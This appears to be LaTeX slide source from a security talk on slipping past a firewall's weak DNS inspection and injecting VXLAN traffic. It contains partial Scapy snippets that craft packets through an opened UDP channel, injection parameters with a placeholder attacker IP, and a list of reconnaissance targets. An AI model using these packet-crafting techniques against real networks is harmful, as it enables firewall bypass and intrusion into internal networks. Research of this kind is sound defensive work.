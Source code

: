 \documentclass[Screen16to9,17pt]{foils}
\begin{document}
{\small Tested working with Clavister with DNS UDP probes/requests, weak/no DNS inspection. May allow acess to all UDP services? Need more testing}


Send/receive UDP probe, do another request through the open channel
\begin{verbatim}
...
print "After fork and things"
#print data.summary()
data[0].show()

# Dissecting the packet
ip=data[0].getlayer(IP)
udp=data[0].getlayer(UDP)

# Try sending request back through - now open - channel
# Dont forget to reverse the src/dst and ports
packet=Ether(dst=routermac)/IP(src=attacker,dst=ip.src)/
    UDP(sport=udp.dport,dport=udp.sport)/DNS(rd=1,qd=DNSQR(qname="localhost"))
sendp(packet,loop=0)
...
\end{verbatim}

Maybe abuse complex protocols such as FTP, SIP etc. to open arbitrary ports?


\begin{verbatim}
vxlanport=4789     # RFC 7384 port 4789, Linux kernel default 8472
vni=37             # Usually VNI == destination VLAN - 4096 values
broadcastmac="ff:ff:ff:ff:ff:ff" # some attacks can use this
randommac="00:51:52:01:02:03"    # Source MAC often does not matter
attacker="185.27.115.666"        # Pls return something to me
destination="10.0.0.10"          # RFC1918 space, limited

IP(src=vtepsrc,dst=vtepdst)      # src and destination, if filtered at all
\end{verbatim}

What I need to do these attacks are:
\begin{list2}
\item Injection end points, IPs of the two routers
\item VLAN IDs and VNIs - VXLAN Network Identifier (VNI)
\item IP addresses, internal subnets
\item MAC addresses - depending on attack
\end{list2}


\end{document}
